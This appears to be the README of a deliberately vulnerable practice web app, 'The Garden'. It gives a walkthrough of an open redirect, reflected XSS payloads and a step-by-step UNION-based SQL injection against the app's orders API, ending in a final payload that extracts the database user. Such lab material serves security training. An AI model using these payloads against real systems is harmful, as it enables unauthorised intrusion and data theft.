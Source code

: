 ## About The Garden

It's vulnerable by purpose.


## Open Redirect

Visit: http://thegarden.local.net/login?r=http://10degres.net and log in.  

## Information disclosure

- 

## IDOR

- 

## XSS

Visit http://thegarden.local.net/?q=111%27%22--%3E%3Cu%3E111 and ensure that HTML is interpreted.  
Then use a XSS payload: <svg/onload=prompt()>

Visit http://thegarden.local.net/reset-password/111?email=111%27%22--%3E%3Cu%3E111 and ensure that HTML is interpreted.  
Then use a XSS payload: 111"><svg/onload=prompt()>

## CSRF

- 

## SQL injection

Visit http://thegarden.local.net/login and login in.  
Visit http://thegarden.local.net/orders and click on the details link of on order.  
The following API call is performed http://thegarden.local.net/api/orders/29  
Add a quote to the end of the path http://thegarden.local.net/api/orders/29%27   
You'll get some error messages:  
"Illuminate\Database\QueryException: SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''29''' at line 1 (SQL: SELECT * FROM orders WHERE id='29'') in file /Users/gwen/Public/thegarden/vendor/laravel/framework/src/Illuminate/Database/Connection.php on line 742"  
Check the number of columns the query as:  
is ok: http://thegarden.local.net/api/orders/29%27%20order%20by%2015%23  
is too much: http://thegarden.local.net/api/orders/29%27%20order%20by%2016%23  
Use the `union` technic: http://thegarden.local.net/api/orders/29%27%20union%20select%20null,null,null,null,null,null,null,null,null,null,null,null,null,null,null%20order%20by%20id%23  

Final payload: %27%20union%20select%20null,current_user(),null,null,null,null,null,null,null,null,null,null,null,null,null%20order%20by%20id%23  

